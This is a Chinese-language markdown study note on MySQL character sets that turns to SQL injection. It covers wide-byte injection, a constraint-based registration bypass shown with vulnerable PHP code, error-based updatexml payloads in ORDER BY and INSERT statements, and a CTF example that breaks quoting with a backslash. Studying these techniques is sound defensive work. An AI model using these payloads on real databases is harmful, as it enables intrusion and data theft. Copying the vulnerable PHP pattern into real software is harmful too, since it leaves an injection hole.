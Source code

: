# MySQL

## 编码

### utf8mb4

MySQL在5.5.3之后增加了utf8mb4的编码,专门用来兼容四字节的unicode字符,原来mysql支持的 utf8 编码最大字符长度为 3 字节，如果遇到 4 字节的宽字符就会插入异常了

### 字符集设置项

- character_set_server：默认的内部操作字符集
- character_set_client：客户端来源数据使用的字符集
- character_set_connection：连接层字符集
- character_set_results：查询结果字符集
- character_set_database：当前选中数据库的默认字符集
- character_set_system：系统元数据(字段名等)字符集

```sql
# 新建一个数据库指定字符集为utf8mb4
create database `web` character set `utf8mb4` collate `utf8mb4_general_ci`;

mysql> use web;
Database changed
mysql> SHOW VARIABLES WHERE Variable_name LIKE 'character\_set\_%' OR Variable_name LIKE 'collation%';  
+--------------------------+--------------------+
| Variable_name            | Value              |
+--------------------------+--------------------+
| character_set_client     | utf8mb4            |
| character_set_connection | utf8mb4            |
| character_set_database   | utf8mb4            |
| character_set_filesystem | binary             |
| character_set_results    | utf8mb4            |
| character_set_server     | latin1             |
| character_set_system     | utf8               |
| collation_connection     | utf8mb4_general_ci |
| collation_database       | utf8mb4_general_ci |
| collation_server         | latin1_swedish_ci  |
+--------------------------+--------------------+
10 rows in set (0.03 sec)
```

> 执行了set names utf8; 以后， character_set_client, character_set_connection, character_set_results 等与客户端相关的配置字符集都变成utf8

### 字符集转换过程

1. MySQL Server收到请求时将请求数据从character_set_client转换为character_set_connection

2. 进行内部操作前将请求数据从character_set_connection转换为内部操作字符集，其确定方法如下：

    - 使用每个数据字段的CHARACTER SET设定值

    - 若上述值不存在，则使用对应数据表的DEFAULT CHARACTER SET设定值(MySQL扩展，非SQL标准)

    - 若上述值不存在，则使用对应数据库的DEFAULT CHARACTER SET设定值

    - 若上述值不存在，则使用character_set_server设定值。

3. 将操作结果从内部操作字符集转换为character_set_results。

```sql
# 新建一张字符集为latin1的表
create table `charset_latin1` (
    `id` int unsigned not null auto_increment,
    `username` varchar(100) not null,
    `password` varchar(100) not null,
    primary key (`id`)
    ) charset=latin1 collate=latin1_general_ci;
```

这里客户端和服务端的字符编码不一致会导致安全问题:

- GBK=>latin1 客户端为GBK编码,服务端为默认latin1编码,此时会导致宽字节注入
- utf8=>latin1 client为utf8,服务端为latin1编码,此时可能会导致不完整字符丢失

<!-- ![path](https://nanazeven.github.io/image/sqlinbc.png) -->
<!-- ![path](../image/sqlinbc.png) -->

## 基于约束的SQL攻击

在SQL中执行字符串处理时，字符串末尾的空格符将会被删除,如下两条查询语句的查询结果相同:

```sql
select * from users where username='admin';
select * from users where username='admin   ';
```

问题的关键是如何将原有username加上空格作为新行插入表中,如下为常见的用户注册逻辑:

```php
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT * FROM users WHERE username='$username'";
$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0) {
    // User exists, exit gracefully
  }
  else {
    // If not, only then insert a new entry
    $query = "INSERT INTO users(username, password)
              VALUES ('$username','$password')";
    .
    .
  }
```

在执行insert语句时,插入的值如果超出创建表的是定义的长度varchar(8),值会被裁剪至8位,如果后端在处理用户提交的数据是没有对username做长度验证,即提交一个9个字符的字符串`admin   1`即可绕过判断username已存在,并且在insert时将第九位1裁剪掉.


### mysql_real_escape_string() 

此函数转义 SQL 语句中使用的字符串中的特殊字符:

- \x00
- \n
- \r
- \
- '
- "
- \x1a

## order by

order by注入后续语句会使用报错、布尔、时间进行注入

接报错语句:

```sql
mysql> select * from charset_latin1 order by updatexml(1,concat('~',version()),1);
1105 - XPATH syntax error: '~5.6.45'
```

## insert update delete

报错语句:

```sql
//delete或update
insert into charset_latin1(`usernmae`,`password`) values('username' or updatexml(1,concat('~',version()),1),'password');

1105 - XPATH syntax error: '~5.6.45'
```

### 一个例子

题目地址:https://chall.tasteless.eu/level15/index.php

输入name和text插入数据库,在查询出来:

```sql
insert into table_name(name,text) values('','');
```

但是这里过滤了引号,不能通过闭合导致注入

可以利用这里的两个可控参数,name参数使用 `\` 转义 `'`,使得第一个参数位的引号和第二个参数位的引号闭合:

```sql
insert into table_name(name,text) values('\','(select something...))#');
```

当多个参数可控时,可以组合利用,挖掘XSS漏洞是也可以用到

